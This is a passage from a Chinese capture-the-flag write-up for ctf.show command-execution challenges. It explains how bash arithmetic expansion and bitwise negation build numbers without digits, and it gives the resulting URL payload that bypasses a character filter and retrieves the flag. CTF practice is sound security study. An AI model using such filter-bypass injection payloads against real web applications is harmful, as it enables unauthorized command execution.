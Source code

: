 双小括号的介绍 [http://c.biancheng.net/view/2480.html](http://c.biancheng.net/view/2480.html)

```bash
exp10it@LAPTOP-TBAF1QQG:~$ echo $(())
0
exp10it@LAPTOP-TBAF1QQG:~$ echo $((~$(())))
-1
exp10it@LAPTOP-TBAF1QQG:~$ echo $(($((~$(()))) $((~$(())))))
-2
exp10it@LAPTOP-TBAF1QQG:~$ echo $((-1 -1))
-2
exp10it@LAPTOP-TBAF1QQG:~$ echo $((-1 1))
-bash: -1 1: syntax error in expression (error token is "1")
exp10it@LAPTOP-TBAF1QQG:~$ echo $((1 1))
-bash: 1 1: syntax error in expression (error token is "1")
```

`$(())` 的默认值是0 ,因为里面没有任何东西, 对0取反得到-1, 取反的结果需要用另一对`$(())` 包裹住

这里的-1有点特殊, 因为类似 `$((1 1))` 的命令是错误的 (没有运算符号), 而两个-1并在一起 `$((-1 -1))` 会让 shell 认为是 `$((-1-1))` 即-1减去1, 然后得到-2

```bash
exp10it@LAPTOP-TBAF1QQG:~$ echo $((~36))
-37
```

36的取反结果是-37, 就是说我们需要通过-1来构造出-37, 然后再取反一次

```bash
$((~$(($((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(())))))))
```

访问得到 flag

```
http://8eba4c63-5365-45f7-9c6b-7a0d556e22f7.challenge.ctf.show/?c=$((~$(($((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))))))
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091138556.png)

## web58

命令执行的函数都被 ban 了, 但是 `file_get_contents()` 还能用

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091147569.png)
